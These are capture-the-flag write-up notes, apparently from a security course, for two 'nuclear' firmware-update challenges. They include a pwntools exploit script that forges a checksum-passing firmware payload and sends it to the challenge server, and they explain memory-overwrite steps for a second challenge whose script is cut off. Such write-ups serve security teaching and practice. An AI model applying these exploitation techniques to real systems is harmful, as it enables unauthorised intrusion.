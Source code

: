 	```

## nuclear1


* update firmware to reach flag1
	* pass the checksum which the first 4bytes must be `FW12`, and the sum(5th, 6th) = sum(7th~512th)

* writeup

	```
	from pwn import *
	
	
	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 5002)
	elif args.HOST:
	    p = process('./nuclear')
	
	firmware_header = b'FW12'
	firmware_body = p8(0x00) + p8(0x00)
	
	firmware_tail = b'\x00' * (512 - 6)
	
	payload = firmware_header + firmware_body + firmware_tail
	print(payload.decode('utf-8'))
	p.sendlineafter(b">> 6447 Nuclear Terminal Facility (Medical Purposes Only)", b"U")
	p.sendlineafter(b'>', payload)
	
	p.interactive()
	
	```

## nuclear2

* execute firmware get flag1
	* checksum: same as above
	* precheck: firmupdated != 0 && data4224 == 0
		* since firmupdated didnt find a place to overwrite it 
		* however data4224 canbe overwritten when case08, payload \x38\x00 set data4224 to 0
	* pass speed > 27999 teminate when case03, change result sincedata4228 = result, change it to 1 then pass the speed limitation, the payload \x33\x36
	* speed > 27999 which speed should be 28000, case 06: speed += 1000, then we need run 28 times of case06

* script

	```
	# firmware_body = p8(0x00) + p8(0x36)
	# firmware_tail = b'\x00' * 505 + b'\x36'
	
	from pwn import *
	